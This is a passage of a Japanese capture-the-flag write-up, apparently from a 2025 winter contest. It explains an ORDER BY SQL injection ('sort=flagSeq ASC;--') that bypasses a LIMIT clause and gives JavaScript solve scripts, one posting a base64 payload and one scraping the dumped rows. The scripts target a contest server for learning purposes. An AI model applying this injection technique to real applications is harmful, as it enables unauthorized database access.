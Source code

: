```javascript
        {"name": "name", "value": "on"},
        {"name": "email", "value": "on"},
        {"name": "tel", "value": "on"},
        {"name": "address", "value": "on"},
        {"name": "flag", "value": "on"}
    ];
    const b64Payload = btoa(JSON.stringify(payload));
    res = await fetch(baseUrl);
    const session = res.headers.getSetCookie();
    res = await fetch(baseUrl + "json.php", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
            "Cookie": session
        },
        body: `data=${b64Payload}`
    });
    console.log(await res.text());
})();
```
```
flag{ParameterHandlingError}
```

### 整列！

フラグの情報がDBに格納されており、それをWebサイト越しに取得する問題です。
WEの中で一番面白かったです。
index.phpに行くとDBに保存されているであろうレコードが表示されたページが出てきます。
この情報からカラムはid、data、flagSeqの3つだと分かります。
ページ上で?sort=data+ASCなどとパラメータを指定することで並び替えを行うこともできます。
ですが、どうやってもレコードの数が少ないです。
例えば?sort=flagSeq+ASCで並び変えても最初の20行ぐらいしか出てきません。
ここでASCという文字に着目します。
これはMySQLのORDER BY句で使用される値です。
ここから内部で実行されるSQL文が推測できます。
```php
query("SELECT * FROM table ORDER BY " . $userQuery . " LIMIT 20");
```
するとASCの最後にコメントアウトを行うと以下のようなSQL文になります。
```sql
SELECT * FROM table ORDER BY flagSeq ASC;-- LIMIT 20
```
これで出力される行の数が少なくなる問題が解決できそうです。
```javascript
(async () => {
    const jsdom = require("jsdom");


    let res;
    let result = "";
    const baseUrl = "https://we5-prod.2025winter-cybercontest.net/";
    res = await fetch(baseUrl);
    const session = res.headers.getSetCookie();
    res = await fetch(baseUrl + "/index.php?sort=flagSeq+ASC;--", {
        method: "GET",
        headers: {
            "Cookie": session
        }
    });
    const dom = new jsdom.JSDOM(await res.text());
    const tbody = dom.getElementsByTagName("tbody")[0];
    const trows = tbody.getElementsByTagName("tr");
    for (let i = 0; i < trows.length; i++) {
        result += trows[i].getElementsByTagName("td")[1].innerText;
```